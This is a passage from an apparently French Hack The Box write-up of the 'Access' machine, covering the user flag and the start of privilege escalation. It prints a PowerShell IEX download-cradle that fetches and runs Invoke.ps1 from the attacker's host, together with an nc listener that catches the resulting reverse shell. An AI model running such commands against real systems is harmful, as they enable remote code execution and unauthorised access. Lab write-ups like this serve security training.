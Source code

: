 ```bash
08/21/2018  10:35 PM    <DIR>          Saved Games
08/21/2018  10:35 PM    <DIR>          Searches
08/24/2018  07:39 PM    <DIR>          Videos
               0 File(s)              0 bytes
              14 Dir(s)   3,347,705,856 bytes free

C:\Users\security>type Desktop\user.txt
9535.....3f75
```

## Privilege Escalation

### Powershell
Si j'écris simplement "powershell", un powershell semble s'ouvrir mais n'est pas stable. J'ai donc dû ouvrir un reverse shell pour obtenir un powershell stable :

```bash
----------KALI------------

┌──(kali㉿kali)-[~/htb/Access]
└─$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.10.98 - - [16/Feb/2025 17:04:22] "GET /Invoke.ps1 HTTP/1.1" 200 -

----------KALI------------

┌──(kali㉿kali)-[~/htb/Access]
└─$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.10.98] 49165

Windows PowerShell running as user security on ACCESS
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\security>PS C:\Users\security> whoami
access\security


---------WINDOWS----------

C:\Users\security>powershell /C IEX(New-Object Net.WebClient).downloadString('http://10.10.16.9:8888/Invoke.ps1')
```

### ZKAccess.lnk
```bash
PS C:\Users\security> cd ../Public
PS C:\Users\Public> cd Desktop
PS C:\Users\Public\Desktop> ls


    Directory: C:\Users\Public\Desktop


Mode                LastWriteTime     Length Name                                                                                                                                                                                          
----                -------------     ------ ----                                                                                                                                                                                          
-a---         8/22/2018  10:18 PM       1870 ZKAccess3.5 Security System.lnk                                                                                                                                                               
```